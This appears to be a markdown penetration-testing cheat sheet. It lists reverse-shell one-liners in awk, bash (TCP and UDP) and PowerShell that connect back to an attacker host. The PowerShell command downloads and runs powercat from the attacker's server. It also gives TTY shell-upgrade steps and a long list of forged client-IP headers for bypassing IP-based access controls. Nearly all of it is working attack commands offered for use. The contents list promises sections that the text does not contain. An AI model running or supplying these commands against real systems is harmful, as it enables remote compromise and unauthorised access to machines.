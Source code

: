 * [Reverse Shell](#reverse-shell)
	* [Awk](#awk)
	* [Bash TCP](#bash-tcp)
	* [Bash UDP](#bash-udp)
	* [PowerShell](#powershell)
* [Spawn TTY Shell](#spawn-tty-shell)
	* [Python](#python)
	* [Perl](#perl)
* [Extension Linux](#extension-linux)
* [IP address bypass](#ip-address-bypass)
* [Useful Regex](#useful-regex)
* [References](#references)

## Reverse Shell
### Awk
```awk
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### Bash TCP
```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

### Bash UDP
```bash
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

### Powershell
```powershell
Victim:
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"

Attacker:
git clone https://github.com/besimorhino/powercat.git
cd powercat
python3 -m http.server 8080
nc -lvp 1337
```

## Spawn TTY Shell
### Python
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Python extended
```python
(victim) python3 -c "import pty; pty.spawn('/bin/bash')"
(hacker) Ctrl+Z
(hacker) Enter
(hacker) stty raw -echo
(hacker) fg (you will not see your keystrokes -- trust yourself and hit Enter)
(hacker) Enter
(hacker) Enter
(hacker) export TERM=xterm
```

### Perl
```perl
perl -e 'exec "/bin/bash";'
```

## IP address bypass
```
CACHE_INFO: 127.0.0.1
CF_CONNECTING_IP: 127.0.0.1
CF-Connecting-IP: 127.0.0.1
CLIENT_IP: 127.0.0.1
Client-IP: 127.0.0.1
COMING_FROM: 127.0.0.1
CONNECT_VIA_IP: 127.0.0.1
FORWARD_FOR: 127.0.0.1
FORWARD-FOR: 127.0.0.1
FORWARDED_FOR_IP: 127.0.0.1
FORWARDED_FOR: 127.0.0.1
FORWARDED-FOR-IP: 127.0.0.1
FORWARDED-FOR: 127.0.0.1
FORWARDED: 127.0.0.1
HTTP-CLIENT-IP: 127.0.0.1
HTTP-FORWARDED-FOR-IP: 127.0.0.1
HTTP-PC-REMOTE-ADDR: 127.0.0.1
HTTP-PROXY-CONNECTION: 127.0.0.1
HTTP-VIA: 127.0.0.1
HTTP-X-FORWARDED-FOR-IP: 127.0.0.1
HTTP-X-IMFORWARDS: 127.0.0.1
HTTP-XROXY-CONNECTION: 127.0.0.1
PC_REMOTE_ADDR: 127.0.0.1
PRAGMA: 127.0.0.1
PROXY_AUTHORIZATION: 127.0.0.1
PROXY_CONNECTION: 127.0.0.1
Proxy-Client-IP: 127.0.0.1
PROXY: 127.0.0.1
REMOTE_ADDR: 127.0.0.1
Source-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Via: 127.0.0.1
VIA: 127.0.0.1
WL-Proxy-Client-IP: 127.0.0.1
X_CLUSTER_CLIENT_IP: 127.0.0.1
X_COMING_FROM: 127.0.0.1
X_DELEGATE_REMOTE_HOST: 127.0.0.1
X_FORWARDED_FOR_IP: 127.0.0.1
X_FORWARDED_FOR: 127.0.0.1
X_FORWARDED: 127.0.0.1
X_IMFORWARDS: 127.0.0.1
X_LOCKING: 127.0.0.1
X_LOOKING: 127.0.0.1
X_REAL_IP: 127.0.0.1
X-Backend-Host: 127.0.0.1
X-BlueCoat-Via: 127.0.0.1
X-Cache-Info: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For: 127.0.0.1, 127.0.0.1, 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-Forwared-Host: 127.0.0.1
X-From-IP: 127.0.0.1
X-From: 127.0.0.1
X-Gateway-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Ip: 127.0.0.1
X-Original-Host: 127.0.0.1
X-Original-IP: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originally-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyMesh-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-True-Client-IP: 127.0.0.1
XONNECTION: 127.0.0.1
XPROXY: 127.0.0.1
XROXY_CONNECTION: 127.0.0.1
Z-Forwarded-For: 127.0.0.1
ZCACHE_CONTROL: 127.0.0.1
```

